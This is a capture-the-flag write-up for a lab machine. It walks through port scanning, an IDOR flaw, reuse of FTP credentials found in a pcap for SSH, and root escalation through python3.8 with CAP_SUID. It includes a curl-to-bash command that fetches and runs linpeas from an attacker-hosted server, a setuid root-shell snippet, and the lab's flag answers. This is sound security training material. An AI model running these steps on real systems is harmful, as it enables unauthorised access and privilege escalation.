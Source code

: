 # Tasks

[**How many TCP ports are open?**](#task-1)

[**After running a "Security Snapshot", the browser is redirected to a path of the format ```/something/id```, where ```id``` represents the id number of the scan. What is the ```something```?**](#task-2)

[**Are you able to get to other users' scans?**](#task-3)

[**What is the ID of the PCAP file that contains sensative data?**](#task-4)

[**Which application layer protocol in the pcap file can the sensetive data be found in?**](#task-5)

[**We've managed to collect nathan's FTP password. On what other service does this password work?**](#task-6)

[**User Flag**](#user-flag)

[**What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?**](#task-8)

[**Root Flag**](#root-flag)

# Tools Used

- nmap
- gtfobins (kind of)

# Skills used

- 

# Solutions

## Task 1

**Command:**

```
nmap -sCV [IP Address]
```

![image](https://github.com/user-attachments/assets/98695f42-0e02-4f68-9d4a-3e47b0d589ca)

**Answer: 3**

## Task 2

Just go to the website:

![image](https://github.com/user-attachments/assets/b3d0014a-1777-499c-ac22-5a133283f4bf)

That's not the landing page but the page that we need to go to find the answer, looks like an _IDOR_ might be possible.

**Answer: data**

## Task 3

![image](https://github.com/user-attachments/assets/e4430975-b9ed-43a1-895b-255b11708962)

Yes, _IDOR_ was very much possible.

**Answer: yes**

## Task 4

_Yes_

![image](https://github.com/user-attachments/assets/c8e73b82-31a1-4e5a-8cce-d9dc37170969)

**Answer: 0**

## Task 5

Check the _pcap_ file, and we'll find this:

![image](https://github.com/user-attachments/assets/d2b071e7-9fab-4e69-b345-6283af83114f)

**Answer: FTP**

Also, we're gonna be using that info a bunch so yeah.

## Task 6

So, remember how _ssh_ was open based on the scan? Yeah, that's what I thought lmao.

**Answer: ssh**

## User Flag

Log in to _ssh_, then you'll find this:

![image](https://github.com/user-attachments/assets/a1ee20f5-a706-4f7c-a223-b37d617af766)

**Answer: c96619759ff232fdc96286ad0d0ce8aa**

## Task 8

Ok so at first, I thought using this was enough to find the vulnerable binary:

```
find / -user root -perm -4000 2>/dev/null
```

This basically looks for all files with escalated privileges. Usually I use that to find vulnerable binaries.

![image](https://github.com/user-attachments/assets/e1a919cd-8bd6-493d-a7d4-1e6b35502a96)

This is what I found, but none of them were useful.

I tried to narrow it down to just _/usr/bin_ to really make sure, but even then, none of the binaries with _SUID_ set are actually useful.

So, I looked at a writeup to see how to find the vulnerable binary, apparently I gotta use _linpeas_ (or another enumeration tool/method).

Basically, the vulnerable binary can set _SUID_ via _CAP_SUID_.

So, here's what I found:

![image](https://github.com/user-attachments/assets/dede01f8-4f88-4fbd-9f8f-575b17fae8a2)

I like how it's even highlighted lol.

Anyways, here's how that happened:

Host _python web server_ in the directory with _linpeas.sh_ in it:

![image](https://github.com/user-attachments/assets/142eb20e-110e-40ba-9940-13aa3c329760)

Curl that in the _ssh_ session to run it, use this to run it directly after curling:

```
curl [Python Server Address/linpeas.sh] | bash
```

![image](https://github.com/user-attachments/assets/c5e2ea11-eaf6-4d14-a028-199c96e53d71)

And let it rip

**Answer: /usr/bin/python3.8**

## Root Flag

Use this script (since _python_ is vulnerable):

```
import os
os.setuid(0)
os.system("/bin/bash")
```

You already know the first and third lines (considering that's pretty common to do), but _os.setuid_ should be self explanatory lmao.

Also, we got that from [**GTFObins**](https://gtfobins.github.io/gtfobins/python/#suid), this specifically:

![image](https://github.com/user-attachments/assets/803c48be-a88f-4699-b126-834c7c4125bc)

Should look like this:

![image](https://github.com/user-attachments/assets/c6fb2453-4c61-4ff8-87c6-48f25ee37bdf)

Anyways, here's the flag:

![image](https://github.com/user-attachments/assets/5c1ad47f-6b86-4754-9d2d-0f5cc8cda986)

**Answer: 8d947f4a0f87dde1f469156dfa2fc22e**
